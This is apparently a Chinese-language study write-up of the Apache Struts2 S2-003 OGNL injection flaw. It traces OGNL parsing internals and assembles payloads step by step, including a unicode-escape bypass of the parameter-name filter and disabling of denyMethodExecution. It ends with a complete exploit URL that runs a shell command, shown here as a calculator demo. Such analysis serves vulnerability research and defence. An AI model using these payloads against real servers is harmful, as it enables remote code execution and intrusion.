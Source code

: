 # S2-003漏洞分析

文章里面多了很多我自己的见解没有单纯去copy

## 注意

强烈建议将Tomcat使用Tomcat7以下，这里我用的Tomcat6.0.20，高版本出现特殊符号会报错(4XX)

## 漏洞影响版本

Struts 2.0.0 - Struts 2.1.8.1

## 分析

漏洞触发形式为 `(one)(two)` 表达形式，属于 `ASTEval` 类型，一些详情可以看https://xz.aliyun.com/t/111，属于是不想看了

我们可以看看`ognl.ASTEval#getValueBody`的执行流程

![](img/1.png)

1. 取 one的内容，调用 `getValue()` 方法计算后赋值到 expr 
2. 取 two的内容，赋值给 source
3. 判断 expr 是否为 node 类型，是的话直接转型，否则调用 `Ognl.parseExpression()` 进行解析强转为 node 类型
4. 将 source 放入 root 中并调用 node 的 `setValue()` 方法进行解析

同时如果one 的结果是一个 AST，OGNL 将简单的执行解释它，否则 OGNL 将这个对象转换为字符串形式然后解析这个字符串

学习su18师傅的比如这样

```java
('@java.lang.Runtime'+'@getRuntime().exec(\'open -a Calculator.app\')')('aaa')
('@java.lang.Runtime@'+'getRuntime().exec(#aa)')(#aa='open -a Calculator.app')
```

但是同样的payload放在`setValue`就不行了

![](img/2.png)

这里不能触发原因是这里，而我们之前的`ognl.ASTChain#getValueBody`是`super.children.length - 1`

![](img/4.png)

如果我这里手动改为-1的值，确实可以成功触发的

![](img/5.png)

回到这个话题，目的是通过这个setValue去解决，可是为什么报错主要是`ASTMethod`没有`setValueBody`导致的

![](img/6.png)

但是我们仔细看，在之前`ognl.ASTEval#setValueBody`，可以在这里触发`getValue`

我们之前的payload

```java
Object o = Ognl.parseExpression("('@java.lang.Runtime@'+'getRuntime().exec(#aa)')(#aa='open -a Calculator.app')");
```

到了这里就是

![](img/7.png)

那如果我们能到这里构造就触发那不就行了吗

![](img/3.png)

可以看到如果在不是常量就会去调用`getValueBody`

![](img/8.png)

可以

```java
Object o = Ognl.parseExpression("(@java.lang.Runtime@getRuntime().exec('open -a Calculator.app'))('')");
```

或者

```java
 Object o = Ognl.parseExpression("('@java.lang.Runtime@'+'getRuntime().exec(#aa)')(#aa='open -a Calculator.app')('y4tacker')");
```

都可以成功弹出计算器这时候高高兴兴拿着payload去打

![](img/9.png)

这里首先遇到的第一个坑是`acceptableName`其实是一个过滤

```java
    protected boolean acceptableName(String name) {
        return name.indexOf(61) == -1 && name.indexOf(44) == -1 && name.indexOf(35) == -1 && name.indexOf(58) == -1 && !this.isExcluded(name);
    }
```

不能出现这些字符，绕过方式很简单，这里在对表达式进行解析时，由于在 `OgnlParserTokenManager` 方法中使用了 `ognl.JavaCharStream#readChar()` 方法，在读到 `\\u` 的情况下，会继续读入 4 个字符，并将它们转换为 char，因此 OGNL 表达式实际上支持了 unicode 编码，这就绕过了之前正则或者字符串判断的限制

因此payload改为

```java
('@java.lang.Runtime@'+'getRuntime().exec(\u0023aa)')(\u0023aa\u003d'open\u0020-a\u0020Calculator.app')('y4tacker')
```

这里调用静态函数受`xwork.MethodAccessor.denyMethodExecution`属性影响

![](img/10.png)

在这之前就调用了，所以要想执行命令首先得要把这个属性设置为false

![](img/11.png)

得到最终payload了

```java
http://127.0.0.1:8080/login.action?(%27\u0023context[\%27xwork.MethodAccessor.denyMethodExecution\%27]\u003dfalse%27)(su18)(su19)&('\u0040java.lang.Runtime%40'%2B'getRuntime().exec(%5Cu0023aa)')(%5Cu0023aa%5Cu003d'open%5Cu0020-a%5Cu0020Calculator.app')('y4tacker')
```

这里你可能会好奇为什么我的payload这个`@`符号明明没有在被过滤但是也用了`unicode`编码，这里的迭代器是来源于`TreeMap`是有序的

![](img/12.png)

## 参考文章

https://xz.aliyun.com/t/111

https://su18.org/post/struts2-1/#s2-003
